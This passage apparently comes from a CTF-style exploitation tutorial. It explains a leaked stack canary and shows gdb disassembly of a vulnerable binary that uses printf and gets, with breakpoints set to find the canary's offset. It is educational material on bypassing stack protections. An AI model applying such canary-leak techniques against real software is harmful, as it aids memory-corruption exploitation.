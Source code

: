 So we can see here, the stack canary for this instance was 0x5b25a075507a3600. If you run it multiple times, you see that it changes for each instance which is expected. In addition to that we can see that the least significant bit is a null byte (\x00) which is a characteristic of stack canaries. Now that we have the stack canary, let's figure out how far it is from the start of the buffer overflow so we can write over it. For that we will use gdb. 

```
gdb-peda$ disas revelation
Dump of assembler code for function revelation:
   0x00000000004006b7 <+0>:	push   rbp
   0x00000000004006b8 <+1>:	mov    rbp,rsp
   0x00000000004006bb <+4>:	sub    rsp,0x200
   0x00000000004006c2 <+11>:	mov    rax,QWORD PTR fs:0x28
   0x00000000004006cb <+20>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006cf <+24>:	xor    eax,eax
   0x00000000004006d1 <+26>:	mov    rdx,QWORD PTR [rip+0x200988]        # 0x601060 <stdin@@GLIBC_2.2.5>
   0x00000000004006d8 <+33>:	lea    rax,[rbp-0x200]
   0x00000000004006df <+40>:	mov    esi,0x1e8
   0x00000000004006e4 <+45>:	mov    rdi,rax
   0x00000000004006e7 <+48>:	call   0x400580 <fgets@plt>
   0x00000000004006ec <+53>:	lea    rax,[rbp-0x200]
   0x00000000004006f3 <+60>:	mov    rdi,rax
   0x00000000004006f6 <+63>:	mov    eax,0x0
   0x00000000004006fb <+68>:	call   0x400560 <printf@plt>
   0x0000000000400700 <+73>:	nop
   0x0000000000400701 <+74>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400705 <+78>:	xor    rax,QWORD PTR fs:0x28
   0x000000000040070e <+87>:	je     0x400715 <revelation+94>
   0x0000000000400710 <+89>:	call   0x400550 <__stack_chk_fail@plt>
   0x0000000000400715 <+94>:	leave  
   0x0000000000400716 <+95>:	ret    
End of assembler dump.
gdb-peda$ b *revelation+73
Breakpoint 1 at 0x400700
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400717 <+0>:	push   rbp
   0x0000000000400718 <+1>:	mov    rbp,rsp
   0x000000000040071b <+4>:	sub    rsp,0x20
   0x000000000040071f <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000400728 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040072c <+21>:	xor    eax,eax
   0x000000000040072e <+23>:	mov    eax,0x0
   0x0000000000400733 <+28>:	call   0x4006b7 <revelation>
   0x0000000000400738 <+33>:	lea    rax,[rbp-0x20]
   0x000000000040073c <+37>:	mov    rdi,rax
   0x000000000040073f <+40>:	mov    eax,0x0
   0x0000000000400744 <+45>:	call   0x400590 <gets@plt>
   0x0000000000400749 <+50>:	mov    eax,0x0
   0x000000000040074e <+55>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000400752 <+59>:	xor    rdx,QWORD PTR fs:0x28
   0x000000000040075b <+68>:	je     0x400762 <main+75>
   0x000000000040075d <+70>:	call   0x400550 <__stack_chk_fail@plt>
   0x0000000000400762 <+75>:	leave  
   0x0000000000400763 <+76>:	ret    
End of assembler dump.
gdb-peda$ b *main+50
Breakpoint 2 at 0x400749
gdb-peda$ r
Starting program: /Hackery/escape/def_ovr/d0_64/d0_64 
```